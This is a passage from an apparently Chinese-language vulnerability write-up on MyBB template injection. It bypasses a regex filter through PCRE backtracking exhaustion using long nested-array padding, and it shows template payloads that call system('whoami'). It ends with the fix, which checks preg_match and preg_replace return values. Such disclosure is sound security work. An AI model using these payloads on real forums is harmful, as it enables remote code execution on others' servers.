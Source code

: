 ![image-20240910101802633](https://shs3.b.qianxin.com/butian_public/f1570063fe7d90b0ee1f62688efa04178f47f3f1a8985.jpg)

测试发现preg\_replace中{$a\[b\]\[b\]\[b\]}类型的值可以以输入最短的字符长度实现最多的回溯次数，只需要5k多个字符，而达到preg\_match的回溯上限则需要90w多个字符。

所以通过在恶意代码后添加一些多维数组例如

```php
{$a[0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0]......}
```

使得正则执行失败，从而进行绕过。

因此写入模板内容如下

```php
{$system('whoami')}{$a[0][0][0][0][0][0][0][0][0][0][0][0][0]很多个[0]}
```

虽然写入成功了但是执行时报错了

![image-20240904184632460](https://shs3.b.qianxin.com/butian_public/f119730732b17705b892ba58646eaee6b1b0a24e4cd8e.jpg)

mybb的模板引无法直接解析{$system('whoami')}，因此模仿模板自带的方式找现有的方法去调用下，观察下默认模板的调用方式

![image-20240904184808446](https://shs3.b.qianxin.com/butian_public/f993688fee093faefc9fd9b7cf06dae9b0900acd0ce33.jpg)

寻找利用$lang已有的方法去调用

![image-20240904185017942](https://shs3.b.qianxin.com/butian_public/f2042669743c118ca85ffafc36a0a7023a4d140bdf1a8.jpg)

```php
{$lang->load((system('whoami'))}{$a[0][0][0][0][0][0][0][0][0]......}
```

![image-20240904185135447](https://shs3.b.qianxin.com/butian_public/f571780c20d2414c8172cedbb3ada5d3344ccbf1154ba.jpg)

访问触发，成功执行命令

![image-20240904185259749](https://shs3.b.qianxin.com/butian_public/f48738728acf5dc12459a8c41b8c81feaed5887e418e3.jpg)

漏洞修复
----

判断了preg\_match的返回值不能为false，preg\_replace的返回值不能为null。

![image-20240904185320642](https://shs3.b.qianxin.com/butian_public/f8023186a508f8bc1deb612c4e83305051571cb595c88.jpg)